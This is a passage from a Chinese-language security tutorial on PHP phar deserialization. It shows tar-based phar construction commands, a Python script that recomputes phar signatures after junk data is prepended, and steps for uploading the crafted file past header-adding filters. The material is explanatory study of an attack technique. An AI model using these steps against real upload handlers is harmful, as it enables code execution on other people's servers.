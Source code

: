```php
```

此外还在[使用 tar 绕过签名](https://exp10it.cn/2022/08/phar-%E7%AD%BE%E5%90%8D%E7%9A%84%E4%BF%AE%E5%A4%8D%E4%B8%8E%E7%BB%95%E8%BF%87/#%E4%BD%BF%E7%94%A8-tar-%E7%BB%95%E8%BF%87%E7%AD%BE%E5%90%8D)看到可以直接使用打包一个只放了反序列化数据的`.metadata`文件生成的.tar压缩包可以直接用来触发反序列化

> linux环境下执行
> 
> ```bash
> mkdir test;cd test
> mkdir .phar;cd .phar
> echo 'O:4:"test":0:{}' > .metadata
> cd ../..
> tar -cf phar.tar .phar/
> ```
> 
> 生成的`phar.tar`可以直接通过`phar://phar.tar`触发反序列化

0x05 pahr文件 -- 可以在文件头添加脏数据且phar正常解析
===================================

**phar格式**，必须控制文件尾，`但不需要控制文件头`。PHP在解析时会在文件内查找`<?php __HALT_COMPILER(); ?>`这个标签，这个标签前面的内容可以为任意值，但后面的内容必须是phar格式，并以该文件的sha1签名与字符串`GBMB`结尾。

phar格式可以直接在文件头加脏数据并且还能正常反序列化, 但是这点需要重新计算一下签名, 下面就是修正签名的脚本

```python
import hashlib

with open('phar.phar', 'rb') as f:
    content = f.read()

text = content[:-28]
end = content[-8:]
sig = hashlib.sha1(text).digest()

with open('phar_new.phar', 'wb+') as f:
    f.write(text + sig + end)
```

(pahr默认使用sha1加密就是有`20字节`的签名生成结果, 在签名后面还有`8字节`,`前4字节表示文件使用的签名算法`,`最后四字节固定用于表示该文件存在签名`)

phar文件内容=数据段+签名(默认sha1有20字节大小)+签名方式(4字节)+声明文件有无签名(4字节)

除了sha1之外phar还可以使用`MD5, SHA256, SHA512, OpenSSL`生成签名

签名是前面全部`数据段`的内容根据加密算法加密得到的结果

所以当我们想要利用phar触发反序列化但是上传的文件在头部被添加了脏数据的话我们可以通过以下方法构造可利用的phar文件:

1. 先生成正常的的`.pahr`文件
2. 往文件头部添加脏数据
3. 使用上面代码改正签名
4. 使用010editor将头部的脏数据删除
5. 上传文件

0x06 文章总结
=========
